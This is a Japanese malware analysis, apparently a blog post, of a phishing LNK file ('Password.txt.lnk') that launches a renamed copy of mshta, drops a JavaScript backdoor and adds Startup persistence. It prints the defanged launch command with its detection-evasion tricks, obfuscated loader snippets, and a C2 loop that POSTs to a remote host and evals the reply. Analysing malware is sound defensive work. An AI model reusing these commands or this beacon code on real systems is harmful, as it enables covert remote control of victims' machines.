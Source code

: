 # javascriptベースのマルウェア

最近ほんとに流行りのLnkから始まるマルウェアを見てみました。  
Lnkを使うこと自体はだいぶ前からあった気がしますが、今更また流行るってのが面白いですね。そういえばマクロマルウェアもだいぶ時間おいてから再流行してその後根強い人気となってますからね。  

さて、今回見てみたのは以下のtwitterで流れてきたものです。  
https://twitter.com/b3ard3dav3ng3r/status/1550028730147700736

ちなみにany.runでの実行結果が出てます。

- 最初のlnkファイル : https://app.any.run/tasks/acc18921-f3b6-4640-a80b-65f68cf4f822/
- 最後のjavascript : https://app.any.run/tasks/6042ff9e-7c9f-427d-95af-f06442d182a5/


大本は以下のlnkファイルです。  
- Password.txt.lnk
- f7170b70a89f4b5d196e3a09c1d6135d36320548f66cdc2c55bf725b0f8d4ab8

メールで直接Lnkファイルが届いたと。せめてzipで包むぐらいしろ、と言いたくなりますが。  
それにpassword.txt.lnkという興味深いファイル名。さすがに開くなよと言いたくなりますが、開く人はたくさんいるのでしょうね。  

### マルウェアの概要挙動

さて、このlnkファイルは以下のようなコマンドを実施しています。

```cmd
"C:\Windows\System32\cmd[.]exe" /q /c type C:\Windows\system32\msh*[.]exe>C:\Users\Public\msh&ren C:\Users\Public\* *ta[.]exe&for %i IN (C:\Users\Public\ms*[.]exe) DO start /b %~ni "hxxps://file[.]fclouddown[.]co/fhivQlXHH+cu3GzSJA3kQ6IKF4fB587js5CfkMQWe00="
```
Note: デファングしてます。
※余談ですが、ずっとマスクやサニタイズと言ってましたが、デファングが正しいみたいですね。。

このコマンドが素晴らしいですね。twitterでも`Nice Trick!`て声が出てました。  
`mshta.exe`をコマンドで打つと検知される可能性が高いので、それをコピーして別フォルダで実行。さらにコピーは`copy`コマンドを使わずtypeとリダイレクトでやるというのがいいですね。  
```cmd
C:\Windows\system32\msh*[.]exe>C:\Users\Public\msh&ren C:\Users\Public\* *ta[.]exe
```

さらに実行ファイル名を出さないようにしてます。  
```cmd
for %i IN (C:\Users\Public\ms*[.]exe) DO start /b %~ni "hxxps://file[.]fclouddown[.]co/fhivQlXHH+cu3GzSJA3kQ6IKF4fB587js5CfkMQWe00="
```

中々考えられた検知回避だな、と思います。  
さて、次はmshtaが動いた後にどうなるか？です。  
まずは、password.txtを作成してそれをNotePadで開いてます。偽装行為ですね。  
次にqmprs.jsというファイルを作成し、scmp.exe(実はcscript)で実行しています。  

実際にmshtaから実行されているコマンドを見てみましょう。

```cmd
"C:\Windows\System32\cmd.exe" /c start /b C:\Users\Public\scmp.exe "C:\Users\admin\AppData\Local\Temp\qmprs.js" file.fclouddown.co/ 1 & start /b C:\Users\Public\scmp.exe "C:\Users\admin\AppData\Local\Temp\qmprs.js" file.fclouddown.co/ 2 & move "C:\Users\admin\AppData\Local\Temp\Box.lnk" "C:\Users\admin\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\"
```

重要なことは以下です。
1. Start MenuにBox.lnkというファイルを置くことで永続性を追加
2. qmprs.jsはscmp.exeで実行
3. scmp.exeのハッシュはcscript.exe
4. qmprs.jsの引数になっている`file[.]fclouddown[.]co`はc2

scmp.exeなんてファイルは本来存在しません。なのでこれはmshtaが作成したようです。さて、次にではmshtaで渡されたソースの内容を見てみましょう。

### ペイロードの内容を見てみる

頭の方をまずは見ますと以下ですが、当然難読化されています。とはいえ簡単な内容ですね。  

```js
<script language="javascript">
var fes="Scrip";
function \u0064\u0065c\u00364(bi){var o\u0074="";try{var \u0064=(new A\u0063\u0074i\u0076eXObj\u0065c\u0074("\x4d\123Xml2"+".DOM"+"\u0044\u006f\143\x75\x6d\x65n\x74")).c\u0072ea\u0074\u0065\u0045le\u006d\u0065n\u0074("\u0062\141\163e");var \u0061=new Activ\u0065XObject("AD\u004f"+"DB.S\164ream");d.\u0064ata\u0054ype="bin\x2e\142ase64";\u0064.te\u0078t=bi;a.t\u0079pe=1;a.\u006f\u0070en();a.\u0077rite(d.n\u006f\u0064e\u0054\u0079\u0070edVal\u0075\u0065);a.position=0;a.\u0074\u0079p\u0065=2;a.c\u0068a\u0072S\u0065\u0074="u\x74f-8";\u006f\u0074=\u0061.r\u0065adText;a.close()}catch(e){ot=""}return ot}
// 省略
```

さて、簡単に重要なところだけ見ていきましょう。  
※ちなみに取得が分かれていると思われ、jsのファイル名が違いますが、ご容赦ください。

まず、攻撃ファイルを作成しています。以下にある`dec64()`という関数も本スクリプト内で作成されています。  

```js
var lp="dmFy～省略～KCl9"; // これが本当のペイロード。base64になっている
var jp=osf.GetSpecialFolder(2)+"\\vqngxa.js"; // 2はtempフォルダ
var fh=osf.CreateTextFile(jp,2,true); fh.WriteLine(dec64(lp)); fh.Close(); // jsファイルの書き込み
```

さらに、cscript.exeをpublic配下のファイルとしてコピーしてます。  

```js
var x="C:\\Users\\Public\\ldmc.exe";
try{osf.CopyFile("C:\\Windows\\System32\\cscript.exe",x)}catch(e){}
```

そして実行しています。

```js
try{osf.CopyFile("C:\\Windows\\System32\\cscript.exe",x)}catch(e){}
var l=" start /b "+x+" \""+jp+"\" file.fclouddown.co/ ";
l="CMD.exe /c"+l+"1 &"+l+"2";
function Expands(){swh.run(l,0,false);window.close()}
Expands();
```

ついでに、以下で環境変数をセットしていますが、ちょっとこれは不明です。何かに使うのかダミーの操作なのか。  

```js
var swh=new ActiveXObject(w);
swh.Environment("PROCESS").Item("JVER")="21";
```

さて、次は本来のペイロードであるbase64コマンドを見ていきましょう。  

### 実ペイロードであるcscriptで実行されるjsファイルを見てみる

まずは、通信先情報がありました。引数で渡した`file[.]fclouddown[.]co`はここで利用されているようですね。ちなみに最初が数字で始まる場合は`https`にするようです。  
Note: file[.]～ならhttp。0file[.]ならhttpsといった形ですね。  

```js
var saddr="http";
var prfx=WScript.arguments(0);
if(isNaN(prfx.substring(0,1))==true){saddr+="s"}
saddr+="://"+prfx;
```

さて、次にメイン挙動を見てみます。  

```js
function ads(){
	var xml=WScript.CreateObject(stm);
	var rxt="";
	try{
		xml.setOption(2,13056);
		xml.open("POST",saddr);
		xml.setRequestHeader("Content-Type","text/html");
		xml.setRequestHeader("Content-Length",s.length);
		xml.send(s);
		rxt=xml.responseText;
		xml=null;
        if(rxt.length>=1){eval(dec64(rxt))};
	}catch(e){}
	WScript.Sleep(15*1000)
}
while(true){ads()}"
```

何となくわかりますかね？重要なところが以下のように2個所あります。  
1. POSTリクエストを送信
2. レスポンス結果をevalで実行している

```js
xml.open("POST",saddr); // 1
// 省略
rxt=xml.responseText;
if(rxt.length>=1){eval(dec64(rxt))} // 2
```

つまり、このマルウェアはバックドアです。既に攻撃者から任意操作ができるようになっています。恐ろしいですね。  

### 終わりに

この系統(lnkファイル)は、LoLの手法が大量に研究されている現代ではかなり脅威的なものだと思います。今後もマクロと共に流行っていくでしょう。

ぜひ、皆さんもメールで受け取るファイルは怪しいものとして注意していきましょう。  
